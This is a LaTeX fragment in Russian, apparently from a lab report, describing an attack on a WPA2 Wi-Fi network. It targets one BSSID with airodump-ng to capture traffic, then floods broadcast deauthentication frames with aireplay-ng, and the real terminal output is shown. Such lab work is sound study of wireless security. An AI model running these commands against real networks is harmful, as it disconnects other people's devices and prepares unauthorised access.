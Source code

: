 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
Выберем в качестве целевой сеть с BSSID 1C:7E:E5:39:26:F8. Теперь можно запустить airodump-ng с параметрами отслеживания именно этой сети. Параметр –write обеспечивает запись трафика в файл с префиксом dump.

\begin{lstlisting}
airodump-ng mon2 --write airdump --bssid 1C:7E:E5:39:26:F8  -c 4

 CH  4 ][ BAT: 1 hour 12 mins ][ Elapsed: 12 s ][ 2015-06-03 20:41 ][ fixed channel mon2: -1    
                                                                                                
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID             
                                                                                                
 1C:7E:E5:39:26:F8  -83 100      137      380   58   4  54e. WPA2 CCMP   PSK  18                 
                                                                                                
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                      
                                                                                                
1C:7E:E5:39:26:F8  C0:18:85:9E:54:0B    0    0e- 1e     0        3                              
1C:7E:E5:39:26:F8  28:9A:FA:42:18:65   18    0e- 1      1        4                               
1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -127    0e- 0e     0      374   
\end{lstlisting}

\subsection{Произведем деаутентификацию}


\begin{lstlisting}
aireplay-ng --ignore-negative-one --deauth 150 
-a 1C:7E:E5:39:26:F8 -h 7C:03:D8:98:4A:5C mon0
The interface MAC (C0:18:85:9E:54:0B) doesn't match the specified MAC (-h).
	ifconfig mon0 hw ether 7C:03:D8:98:4A:5C
21:27:51  Waiting for beacon frame (BSSID: 1C:7E:E5:39:26:F8) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
21:27:51  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:52  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:52  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:53  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:53  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
\end{lstlisting}
\end{document}
